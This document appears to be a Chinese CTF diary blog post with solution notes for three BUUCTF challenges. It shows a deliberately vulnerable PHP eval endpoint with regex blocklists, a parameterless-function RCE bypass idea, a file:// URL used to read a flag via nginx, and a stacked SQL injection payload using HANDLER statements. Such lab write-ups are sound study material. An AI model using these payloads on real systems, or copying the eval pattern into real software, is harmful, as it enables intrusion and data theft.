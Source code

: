 

# buu摸鱼日记（10）

## [GXYCTF2019]禁止套娃

一个简单的rce，之前没怎么接触过RCE，没做出来

首先niklo扫了下，发现是git泄露，于是乎直接拿到了源码

```php
<?php
include "flag.php";
echo "flag在哪里呢？<br>";
if(isset($_GET['exp'])){
    if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
        if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
            if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
                // echo $_GET['exp'];
                @eval($_GET['exp']);
            }
            else{
                die("还差一点哦！");
            }
        }
        else{
            die("再好好想想！");
        }
    }
    else{
        die("还想读flag，臭弟弟！");
    }
}
// highlight_file(__FILE__);
?>
```

#### 无参数rce

[什么是无参数函数RCE](https://skysec.top/2019/03/29/PHP-Parametric-Function-RCE/#什么是无参数函数RCE)

其实就是一个远端执行php,类似于一句话那种

php data等伪协议都被ban了，呢么就直接执行就行了，这里利用PHPSESS_id来绕过那个bin2hex即可

## [SUCTF 2019]Pythonginx

审计源码挺草的，别的没什么

配置文件存放目录：/etc/nginx
主配置文件：/etc/nginx/conf/nginx.conf
管理脚本：/usr/lib64/systemd/system/nginx.service
模块：/usr/lisb64/nginx/modules
应用程序：/usr/sbin/nginx
程序默认存放位置：/usr/share/nginx/html
日志默认存放位置：/var/log/nginx
配置文件目录为：/usr/local/nginx/conf/nginx.conf



读取Nginx服务器的配置

\# location /flag {    #     alias /usr/fffffflag;    # } }

，用file协议去探路，然后穿个

file:////suctf.cc/usr/fffffflag

就拿到flag了

## [GYCTF2020]Blacklist

这个是强网杯的那个预编译的升级版，不过他连预编译也一起毙了

`HANDLER ... OPEN`语句打开一个表，使其可以使用后续`HANDLER ... READ`语句访问，该表对象未被其他会话共享，并且在会话调用`HANDLER ... CLOSE`或会话终止之前不会关闭

```sql
1';
HANDLER FlagHere OPEN;
HANDLER FlagHere READ FIRST;
HANDLER FlagHere CLOSE;#
```

